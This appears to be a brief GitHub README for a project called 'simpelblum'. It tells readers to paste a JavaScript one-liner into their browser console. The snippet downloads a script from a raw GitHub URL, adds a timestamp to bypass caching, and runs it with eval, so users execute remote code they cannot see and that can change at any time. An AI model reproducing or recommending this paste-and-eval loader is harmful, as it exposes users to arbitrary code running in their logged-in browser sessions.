 # simpelblum
just paste this code on your console :)



var unixTime = Date.now();  var url = 'https://raw.githubusercontent.com/xfaryadx/scripts/main/belumm.js' + '?' + unixTime;  fetch(url)   .then(response => response.text())   .then(script => eval(script));
